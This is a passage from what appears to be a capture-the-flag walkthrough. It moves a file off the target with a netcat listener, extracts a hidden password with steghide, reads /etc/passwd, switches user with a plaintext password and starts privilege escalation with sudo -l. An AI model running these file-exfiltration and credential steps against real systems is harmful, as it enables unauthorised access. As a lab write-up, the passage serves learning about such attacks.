 * copy it to our machine
* `nc -nlvp 8000 >photo1.jpg`
* `nc -w 3 ip 8000`

<img src="/img/injector/photo2.PNG" alt="Getting-gz" width="800" height="200">

* i tried to use strings,exiftool,binwalk,foremost in the image but useless
* `steghide extract -sf photo1.jpg`
* `cat password.txt`

<img src="/img/injector/password.PNG" alt="Getting-gz" width="800" height="440">

* we got a password
* search about user `cat /etc/passwd` found `alex`
* login `su alex ` with password `D0n41dTrump`

<img src="/img/injector/user.PNG" alt="Getting-gz" width="800" height="130">
 
 * Let’s do Some privesc
 * `sudo -l` for show the commands runs with root permissions
 
<img src="/img/injector/sudo.PNG" alt="Getting-gz" width="800" height="180">
